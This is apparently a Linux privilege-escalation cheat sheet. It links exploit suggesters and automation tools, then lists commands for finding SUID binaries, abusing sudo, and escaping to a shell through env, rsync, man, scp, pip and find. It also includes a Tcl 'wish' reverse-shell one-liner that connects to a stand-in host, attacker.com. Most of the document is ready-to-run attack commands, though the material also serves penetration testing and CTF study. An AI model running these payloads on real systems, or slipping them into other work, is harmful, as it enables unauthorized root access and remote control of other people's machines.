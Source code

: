 # Linux Privilege Escalation

## kernel Exploit

#### Automate kernel Exploit finding

https://github.com/InteliSecureLabs/Linux_Exploit_Suggester
https://github.com/jondonas/linux-exploit-suggester-2

```bash
./linux-exploit-suggester.sh
```

`Traitor`
Automatically exploit low-hanging fruit to pop a root shell. Linux privilege escalation made easy! Traitor packages up a bunch of methods to exploit local misconfigurations and vulnerabilities (including most of GTFOBins) in order to pop a root shell.

https://github.com/liamg/traitor

https://github.com/liamg/traitor/releases

```bash
./traitor 
```

```bash
./traitor -e polkit:CVE-2021-4034
```

## SUID Binary

A SUID is a special permission that certain executable files may have. When a file has the SUID bit set, users can execute it with the same permissions as its owner.

search for SUID Permission

```bash
find / -type f -perm -u=s 2>/dev/null
```

Exploit SUID

```
python2.7 -c 'import os; os.system("/bin/sh")'
```

## Sudo and sudo caching

check for sudo user 

```
sudo -l 
```

```
cat /etc/sudoers
```

## 

### Linux Automated Privilege Escalation

`GTFOBins` is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

https://github.com/GTFOBins

git clone https://github.com/t0thkr1s/gtfo

https://github.com/topics/gtfobins

`GTFONow` Automatic privilege escalation for misconfigured capabilities, sudo and suid binaries.

https://github.com/Frissi0n/GTFONow

#### Features

* Automatically escalate privileges using misconfigured sudo permissions.
* Automatically escalate privileges using misconfigured suid permissions.
* Automatically escalated privileges using misconfigured capabilities.

Usage

```bash
python3 gtfonow.py
```

```bash
python3 gtfonow.py 
```

### Capability Escalation

```bash
python3 gtfonow.py --caps
```

`pspy`  unprivileged Linux process snooping
pspy - is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute

https://github.com/DominicBreuker/pspy
https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64

Bypass Restricted Environment

### Env

```bash
env /bin/sh  
```

### Rsync

```bash
rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

### man

```bash
sudo man man
!/bin/bash
```

### man PE

```bash
sudo man git help config
!/bin/bash
```

### wish

```bash
export RHOST=attacker.com
export RPORT=12345
echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | wish
```

### SCP

```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
scp -S $TF x y:
```

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
pip install $TF
```

```bash
sudo find . -exec /bin/sh \; -quit
```
